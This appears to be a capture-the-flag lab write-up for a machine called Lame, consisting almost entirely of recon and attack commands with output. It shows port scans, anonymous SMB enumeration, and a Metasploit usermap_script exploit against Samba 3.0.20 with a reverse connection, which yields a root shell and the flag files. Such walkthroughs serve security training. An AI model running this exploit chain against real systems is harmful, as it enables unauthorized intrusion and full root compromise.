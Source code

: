 # Lame
## Samba
## Metasploit
``````

➜  ~ rustscan -a 10.10.10.3 --ulimit 5000

Open 10.10.10.3:22
Open 10.10.10.3:21
Open 10.10.10.3:139
Open 10.10.10.3:445
Open 10.10.10.3:3632

➜  Lame sudo nmap -sV -T4 -p21,22,139,445,3632 -oA Lame -vv 10.10.10.3 

PORT     STATE SERVICE     REASON         VERSION
21/tcp   open  ftp         syn-ack ttl 63 vsftpd 2.3.4
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     syn-ack ttl 63 distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

➜  ~ smbclient -L //10.10.10.3/

Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP 

➜  ~ smbclient //10.10.10.3/tmp 

➜  Lame sudo nmap -sCV -T4 -p139,445 10.10.10.3 -vv

PORT    STATE SERVICE     REASON         VERSION
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)

➜  Lame sudo msfconsole
msf6 > search Samba 3.0.20 < 3.0.25rc3
msf6 > use 0
msf6 exploit(multi/samba/usermap_script) > show options
msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set lhost tun0
msf6 exploit(multi/samba/usermap_script) > run

whoami

Response:

root

find / -name user.txt

/home/makis/user.txt

find / -name root.txt

/root/root.txt

cat /home/makis/user.txt

user_flag

cat /root/root.txt

root_flag

``````

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220621060317.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220621060251.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220621060446.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220621060658.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220621062040.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220625004424.png)

#hacking 
